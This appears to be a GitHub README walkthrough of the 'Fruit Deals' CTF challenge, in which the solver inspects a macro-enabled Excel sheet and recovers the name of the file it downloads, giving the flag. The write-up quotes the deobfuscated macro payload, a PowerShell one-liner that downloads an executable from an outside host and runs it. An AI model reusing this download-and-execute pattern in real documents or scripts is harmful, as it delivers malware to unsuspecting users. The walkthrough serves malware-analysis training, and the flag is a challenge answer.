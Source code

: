 <!-- 
<h3 align="center">CS student and a passionate web developer</h3> -->

<!--   my-ticker -->    
<!-- &emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;[![Typing SVG](https://readme-typing-svg.herokuapp.com?color=%ADFF2F&center=true&vCenter=true&width=600&lines=S4L1M+F4K3-RooT+Player")](https://git.io/typing-svg) -->

<p align="center">
  <a href="https://git.io/typing-svg">
    <img src="https://readme-typing-svg.herokuapp.com?color=%ADFF2F&center=true&vCenter=true&width=600&lines=S4L1M+F4K3-RooT+Player" alt="Typing SVG">
  </a>
</p>

## Fruit Deals  	

### Infos About challenge : 

![](Screenshot/P1.png)




### Description : 

##### I found a excel sheet with some great deals thanks to some random guy on the internet! Who doesn't trust random people off the internet, especially from email

##### The flag is the file name that was attempted to be downloaded, wrapped in utflag{} Note: the file imitates malicious behavior. its not malicious, but it will be flagged by AV. you probably shouldn't just run it though


## solution:



### step 1 : Open Deals.xlsm 



![](Screenshot/P2.png)

##### You notice that That have error everywhere 

##### After doing some Research about caracterstique of .xlsm file I found macros 


### step 2 : Open The macros Code and Reverse it 

##### you can Have the list of macros by Click on Developer button in uppbar if you don't have it enable devloper mode in the seetings 



![](Screenshot/P20.png)

#### After that click on Macros



![](Screenshot/P3.png)


#### When you try to run autoopen macros , It Open a youtube video 

### So we should click On Edit Button not Run 

![](Screenshot/P4.png)


### You can notice that the macros is open an Url and download an program before opening The Youtube Url 

![](Screenshot/P5.png)


### Step 3 : Find the name of file that is downloaded 


#### To do this we should debug the macro and make Break point in the line after of this line  
#### f = t53df028c67b2f07f1069866e345c8b85 + qe32cd94f940ea527cf84654613d4fb5d + ...............

![](Screenshot/P6.png)



### Now Just open the locals windows in View list 

![](Screenshot/P7.png)


### So you can notive the the file name of the programme downloaded is in the "CNTA" 

#### f = "poWeRsHELL -command "$oaK = new-object Net.WebClient;$OrA = 'http://fruit.gang/malware';$CNTA = 'banANA-Hakrz09182afd4';$jri=$env:public+'\'+$CNTA+'.exe';try{$oaK.DownloadFile($OrA, $jri);Invoke-Item $jri;break;} catch {}""


### Congratulation the name of the program is : banANA-Hakrz09182afd4.exe 




### Flag:

### utflag{banANA-Hakrz09182afd4.exe}
